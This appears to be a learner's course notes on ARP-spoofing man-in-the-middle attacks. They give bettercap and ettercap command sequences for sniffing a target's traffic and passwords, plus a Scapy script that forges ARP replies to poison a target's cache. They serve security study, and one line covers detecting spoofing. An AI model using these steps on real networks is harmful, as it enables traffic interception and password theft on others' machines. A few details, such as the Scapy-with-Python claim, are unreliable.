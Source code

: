 # Man in the Middle Attack

Not as important as the other material, but still very good to know. This attack targets ARP requests and replies within a local network. When communicating within a network, a computer will send out an ARP request for a specific IP address, and the correct IP will respond with its MAC address. IP addresses and MAC addresses help routers and computers within the same network communicate with each other. But if we manipulate our response, and say we have the router's IP address, the other computer will start sending us its packets instead of the router. We would forward these requests to the router that way computers still get their requests fulfilled, but we will be able to sniff data, see websites others are visiting, and sniff unencrypted passwords.

## Bettercap ARP Spoofing

`apt-get install bettercap`

`bettercap` - enter bettercap framework

`help` - see available commands

`help net.probe` - see details about specific module. net.probe searches the local network for machines.

`net.probe on`

`set arp.spoof.fullduplex true`

`set arp.spoof.targets TARGETIP`

`set net.sniff.local true`

`arp.spoof on`

`net.sniff on`

These settings will begin sniffing packets sent from target machine. A lot of data streams to the terminal.

`nano sniff.cap` - save the above commands into a cap file

`bettercap -iface eth0 -caplet sniff.cap` - bettercap runs the cap file we created

## Ettercap Password Sniffing

Some tools will not automatically forward packets, so you must do it manually.

Check if packet forwarding is enabled - 

`cat /proc/sys/net/ipv4/ip_forward` - we want this set to 1

`echo 1 > /proc/sys/net/ipv4/ip_forward`

`ettercap -G` - opens GUI. Rewatch video for demonstration.

To see if you are being spoofed, `arp -a` will show the IP and MAC addresses on your network, a different mac address should be on each IP.

## Scapy ARP Cache Poisoning

Scapy comes with Python 3 and allows us to manipulate network packets as well as send and receive packets. This could also be accomplished with the socket library, but Scapy has done all the work for us.

`scapy`

`ls(Ether)` - list all fields an Ether packet contains

`ls(ARP)` - lists all fields that an ARP packet contains. This can be done for any packet - TCP, etc.

If we know the MAC address of our target, we can poison its ARP cache to make it think we are the router.

run as root - 

```
broadcast = Ether(dst='ff:ff:ff:ff:ff:ff') # set destination MAC target to everyone on network
broadcast.show() # shows the current config. src is kali MAC address

arp_layer = ARP(pdst='TARGETIP') # preparing the ARP request
arp_layer.show()

entire_packet = broadcast/arp_layer
entire_packet.show()

answer = srp(entire_packet, timeout=2, verbose=True)[0] # receive answered packets

print(answer[0]) # hwsrc contains our target's MAC address if successful
print(answer[0][1].hwsrc)

target_mac_address = answer[0][1].hwsrc

packet = ARP(op=2, hwdst=target_mac_address, pdst='TARGETIP', psrc='ROUTERIP') # sets ARP response condition, with target MAC, IP, and router IP instead of kali IP
packet.show()

send(packet, Verbose=False)
```